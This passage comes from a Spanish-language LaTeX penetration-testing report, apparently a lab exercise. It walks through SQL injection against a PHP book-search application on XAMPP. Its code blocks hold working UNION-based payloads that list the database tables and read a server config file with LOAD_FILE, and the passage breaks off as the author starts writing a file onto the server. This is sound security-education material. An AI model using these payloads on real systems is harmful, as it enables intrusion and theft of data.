	
\includegraphics[width=.9\textwidth]{fragments/pentest/nmap.png}
    \caption{ Resultados formateados de nmap }
\end{figure}


\subsection{Pentesting}

Mayor inspección a nivel de servicio no revela mayor información al respecto del estado de la aplicación ni de como comenzar una intrusión. Sin embargo, podemos notar que al momento de buscar libros que contienen delimitadores de string, recibimos el siguiente error:


\begin{figure}
	\centering
	
\includegraphics[width=.9\textwidth]{fragments/pentest/error1.png}
    \caption{ Error recibido por entrada }
\end{figure}

Eso nos indica dos cosas. Lo primero es que al parecer esta entrada es sensible a una inyección SQL. Segundo, que lo que sea resultante de esa salida tiene que ser un arreglo de registros.

Esto es porque el método num_rows solo aparece cuando se espera que el resultado sea iterable. Utilizando esto como información, procedemos a realizar una inyección por medio de un union. No es posible ejecutar una inyección por medio de el término de la query en este punto dado que en php, al momento de concatenar queries, solo se ejecuta la primera.

Luego de una busqueda exhaustiva para encontrar el numero de elementos retornados por la query, el resultado es que son 5 elementos, los cuales coinciden con la estructura devuelta por la consulta al servicio web.

\begin{minted}[linenos,tabsize=2,breaklines,fontsize=\scriptsize]{sql}
Libro de prueba 3' union select 'debo' as titulo, 'limpiar' as autor, 'todas' as edicion, 'las' as anio, 'queries' as numeroCopias; -- "
\end{minted}
    

\begin{figure}
	\centering
	
\includegraphics[width=.9\textwidth]{fragments/pentest/pen1.png}
    \caption{ Prueba inyección SQL }
\end{figure}

Acto seguido, intentamos verificar si es posible extraer las tablas por medio de una consulta. Normalmente, si el usuario no tuviese permisos, esto no podría ser posible.


\begin{minted}[linenos,tabsize=2,breaklines,fontsize=\scriptsize]{sql}
libro de prueba 3' union select 'debo' as titulo, 'limpiar' as autor, 'todas' as edicion, 'las' as anio, (SELECT GROUP_CONCAT(table_name SEPARATOR '|') FROM information_schema.tables) as numeroCopias; -- "
\end{minted}
    
\begin{figure}
	\centering
	
\includegraphics[width=.9\textwidth]{fragments/pentest/pen3.png}
    \caption{ Inyección SQL - Exploración }
\end{figure}

\begin{figure}
	\centering
	
\includegraphics[width=.9\textwidth]{fragments/pentest/pen2.png}
    \caption{ Tablas de interés }
\end{figure}

Dado que al parecer el usuario no tiene restricciones mayores, procedemos a verificar si es posible leer archivos directamente. Para esto, revisamos un archivo genérico de la instalación de XAMPP, \texttt{web.config}.


\begin{minted}[linenos,tabsize=2,breaklines,fontsize=\scriptsize]{sql}
libro de prueba 3' union select 'debo' as titulo, 'limpiar' as autor, 'todas' as edicion, LOAD_FILE('C:/xampp/htdocs/enwi/web.config') as anio, (SELECT GROUP_CONCAT(table_name SEPARATOR '|') FROM information_schema.tables) as numeroCopias;  -- 
\end{minted}

Habiendo logrado con éxito leer un documento, comprobamos que no hay problemas para poder manipular archivos. Acto seguido, inyectamos un archivo sobre el servidor, el cual nos 